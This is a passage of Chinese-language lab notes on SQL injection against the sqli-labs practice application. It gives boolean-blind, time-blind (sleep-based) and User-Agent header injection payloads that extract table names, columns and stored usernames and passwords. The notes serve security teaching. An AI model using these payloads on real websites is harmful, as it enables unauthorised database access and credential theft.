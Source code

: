 盲猜表名，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'--+
```

盲猜users表的全部字段名，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i'--+
```

盲猜表中数据，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select concat_ws(',',username,password) from security.users limit 0,1),1,1)='D'--+
```

### 时间盲注

**实验**

使用sleep()函数判断注入点类型：

```
http://[靶机IP]/sqli-labs/Less-9/?id=1 and sleep(5)--+
```

```
http://[靶机IP]/sqli-labs/Less-9/?id=1' and sleep(5)--+
```

根据延迟猜测数据库名长度：

```
http://[靶机IP]/sqli-labs/Less-9/?id=1' and if(length(database())=7,sleep(5),1)--+
```

后面方法基本类似于之前实验，只要构造if() 语句的第一个参数就好。

## http文件头注入

常见的HTTP Header注入类型包括Cookie注入、Referer注入、User-Agent注入、XFF注入等(注入

位置)。

**实验**

在原始HTTP请求包的头部字段User-Agent末尾添加单引号，即使用如下payload：

```
User-Agent:Mozilla/5.0......Firefox/46.0'
```

发现服务器端报错！

在原始HTTP请求包的头部字段User-Agent末尾添加如下符号，使用如下payload：

```
User-Agent:Mozilla/5.0......Firefox/46.0','','')#
```
